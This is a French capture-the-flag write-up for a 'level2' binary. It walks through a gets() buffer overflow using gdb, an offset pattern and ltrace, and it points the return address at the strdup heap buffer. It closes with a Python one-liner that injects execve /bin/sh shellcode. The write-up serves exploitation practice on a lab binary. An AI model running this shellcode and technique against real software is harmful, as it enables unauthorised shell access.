

# Level 2

## Explication
Après une certaine longueur d'entrée, il segfault.
```
$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
Lorsque nous inspectons avec gdb ou ghidra, nous trouvons la fonction principale `main` et `p` qui est appelé. La fonction `p` inclut un appel à `gets()` qui est vulnérable au buffer overflow.


On peut trouver l'offset via un tool comme [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/),
```
$ gdb -q level2
...
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
En donnant l'adresse de où provient le segfault au site, nous obtenons un offset de 80, Cela signifie que nous pouvons écrire notre shellcode dans la `stdin`, suivi de charactères inutiles jusqu'à ce que le buffer déborde et que nous atteignions 80 caractères, où l'adresse de retour peut être écrasée.

Cependant, ce buffer est stocké sur la stack, malheureusement la fonction `p` vérifie que l'adresse de retour n'est pas dans la stack. Ce qui nous empêche d'écraser l'adresse de retour avec une adresse dans la stack.

Cependant, nous pourrions utiliser la heap, et comme vu sur `ghidra`, le buffer est ensuite copié avec `strdup`. Nous allons donc utiliser `ltrace` pour récupérer l'adresse de `strdup`.
```
$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                       = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5hw
)                                            = 0xbffff70c
puts("hw"hw
)                                                                               = 3
strdup("hw")                                                                             = 0x0804a008
+++ exited (status 8) +++
```
Et sur plusieurs utilisation de `ltrace`, `strdup` nous retourne toujours `0x0804a008`, cela indique qu'il n'y a pas d'ASLR (Address Space Layout Randomization).

Dans ce writeup, on va sauter toute la partie création d'un shellcode mais ce site sur la [création d'un shellcode](https://axcheron.github.io/linux-shellcode-101-from-hell-to-shell/) est très bien.

## Le script
Nous allons donc prendre le shellcode et le mettre dans le buffer en remplissant jusqu'̀a 80 charactères de `a` puis l'adresse de la heap en version little endian

`\x08\xa0\x04\x08` = address return strdup

```
$ python -c 'shell = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"; print(shell + "a" * (80 - len(shell)) + "\x08\xa0\x04\x08")' > /tmp/oob
$ cat /tmp/oob - | ./level2
```
